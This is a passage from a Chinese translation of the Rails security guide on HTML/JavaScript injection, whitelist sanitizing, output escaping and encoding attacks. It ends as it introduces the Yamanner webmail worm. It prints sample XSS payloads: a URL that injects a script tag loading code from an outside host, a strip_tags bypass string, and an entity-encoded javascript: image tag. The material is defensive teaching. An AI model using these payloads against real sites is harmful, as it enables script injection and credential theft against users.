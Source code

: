 iframe 可以从其他网站加载任何 HTML 和 JavaScript。上述 iframe 是使用 [Mpack 框架](http://isc.sans.org/diary.html?storyid=3015)攻击意大利网站的真实代码。Mpack 尝试通过浏览器的安全漏洞安装恶意软件，成功率很高，有 50% 的攻击成功了。

更特殊的攻击是完全覆盖整个网站，或者显示一个登陆框，看去来和原网站一模一样，但把用户名和密码传给攻击者的网站。还可使用 CSS 或 JavaScript 把网站中原来的链接隐藏，换上另一个链接，把用户带到仿冒网站上。

还有一种攻击方式不保存信息，把恶意代码包含在 URL 中。如果搜索表单不过滤搜索关键词，这种攻击就更容易实现。下面这个链接显示的页面中包含这句话“乔治&bull;布什任命 9 岁男孩为主席...”：

~~~
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
~~~

##### 对策 {#html-javascript-injection-countermeasures}

I> 过滤恶意输入很重要，转义输出也同样重要。

对跨站脚本来说，过滤输入值一定要使用白名单而不是黑名单。白名单指定允许输入的值。黑名单则指定不允许输入的值，无法涵盖所有禁止的值。

假设黑名单从用户的输入值中删除了 `script`，但如果攻击者输入 `<scrscriptipt>`，过滤后剩余的值是 `<script>`。在以前版本的 Rails 中，`strip_tags()`、`strip_links()` 和 `sanitize()` 方法使用黑名单。所以下面这种注入完全可行：

{:lang="ruby"}
~~~
strip_tags("some<<b>script>alert('hello')<</b>/script>")
~~~

上述方法的返回值是 `some<script>alert('hello')</script>`，仍然可以发起攻击。所以我才支持使用白名单，使用 Rails 2 中升级后的 `sanitize()` 方法：

{:lang="ruby"}
~~~
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
~~~

这个方法只允许使用指定的标签，效果很好，能对付各种诡计和改装的标签。

而后，还要转义程序的所有输出，尤其是要转义输入时没有过滤的用户输入值（例如前面举过的搜索表单例子）。使用 `escapeHTML()` 方法（或者别名 `h()`）把 HTML 中的 `&`、`"`、`<` 和`>` 字符替换成 `&amp;`、`&quot;`、`&lt;` 和 `&gt;`。不过开发者很容易忘记这么做，所以推荐使用 [SafeErb](http://safe-erb.rubyforge.org/svn/plugins/safe_erb/) 插件，SafeErb 会提醒你转义外部字符串。

##### 编码注入 {#obfuscation-and-encoding-injection}

网络流量大都使用有限的西文字母传输，所以后来出现了新的字符编码方式传输其他语种的字符。这也为网页程序带来了新的威胁，因为恶意代码可以隐藏在不同的编码字符中，浏览器可以处理这些编码，但网页程序不一定能处理。下面是使用 UTF-8 编码攻击的例子：

~~~
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;
  &#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
~~~

上面的代码会弹出一个提示框。`sanitize()` 方法可以识别这种代码。编码字符串的一个好用工具是 [Hackvertor](https://hackvertor.co.uk/public)，使用这个工具可以做到知己知彼。Rails 的 `sanitize()` 方法能有效避免编码攻击。

#### 真实案例 {#examples-from-the-underground}

要想理解现今对网页程序的攻击方式，最好看几个真实案例。

下面的代码摘自针对 Yahoo! 邮件的[蠕虫病毒](http://groovin.net/stuff/yammer.txt)，由 [Js.Yamanner@m](http://www.symantec.com/security_response/writeup.jsp?docid=2006-061211-4111-99&tabid=1) 制作，发生在 2006 年 6 月 11 日，是第一个针对网页邮件客户端的蠕虫病毒：
